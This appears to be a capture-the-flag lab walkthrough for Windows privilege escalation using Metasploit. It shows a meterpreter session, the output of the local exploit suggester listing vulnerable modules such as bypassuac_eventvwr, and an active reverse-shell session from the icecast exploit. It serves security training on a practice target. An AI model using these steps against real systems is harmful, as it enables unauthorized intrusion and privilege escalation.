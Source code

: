 ### Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?
`x64`

### Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.82.95 - Collecting local exploits for x86/windows...
[*] 10.10.82.95 - 35 exploit checks are being tried...
[+] 10.10.82.95 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.82.95 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.82.95 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.82.95 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.82.95 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.82.95 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.82.95 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.82.95 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.82.95 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```



### Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
`exploit/windows/local/bypassuac_eventvwr`

###  Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell. 
```
msf6 exploit(windows/http/icecast_header) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.2.60.96:4444 -> 10.10.82.95:49258 (10.10.82.95)
```
